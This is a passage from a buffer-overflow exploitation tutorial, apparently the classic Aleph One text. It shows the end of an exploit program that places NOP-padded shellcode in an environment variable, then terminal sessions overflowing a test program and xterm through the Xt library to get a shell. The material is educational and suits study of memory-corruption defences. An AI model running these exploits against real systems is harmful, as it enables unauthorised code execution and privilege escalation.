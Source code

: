   for (i = 0; i < bsize; i+=4)
    *(addr_ptr++) = addr;

  for (i = 0; i < bsize/2; i++)
    buff[i] = NOP;

  ptr = buff + ((bsize/2) - (strlen(shellcode)/2));
  for (i = 0; i < strlen(shellcode); i++)
    *(ptr++) = shellcode[i];

  buff[bsize - 1] = '\0';

  memcpy(buff,"EGG=",4);
  putenv(buff);
  system("/bin/bash");
}
------------------------------------------------------------------------------
{% endhighlight %}

A good selection for our buffer size is about 100 bytes more than the size
of the buffer we are trying to overflow.  This will place our code at the end
of the buffer we are trying to overflow, giving a lot of space for the NOPs,
but still overwriting the return address with the address we guessed.  The
buffer we are trying to overflow is 512 bytes long, so we'll use 612.  Let's
try to overflow our test program with our new exploit:

```
------------------------------------------------------------------------------
[aleph1]$ ./exploit3 612
Using address: 0xbffffdb4
[aleph1]$ ./vulnerable $EGG
$
------------------------------------------------------------------------------
```

Whoa!  First try!  This change has improved our chances a hundredfold. 
Let's try it now on a real case of a buffer overflow.  We'll use for our
demonstration the buffer overflow on the Xt library.  For our example, we'll 
use xterm (all programs linked with the Xt library are vulnerable). You must
be running an X server and allow connections to it from the localhost.  Set
your DISPLAY variable accordingly.

```
------------------------------------------------------------------------------
[aleph1]$ export DISPLAY=:0.0
[aleph1]$ ./exploit3 1124
Using address: 0xbffffdb4
[aleph1]$ /usr/X11R6/bin/xterm -fg $EGG
Warning: Color name "^1FF
                           
                            V

1@/bin/sh















```
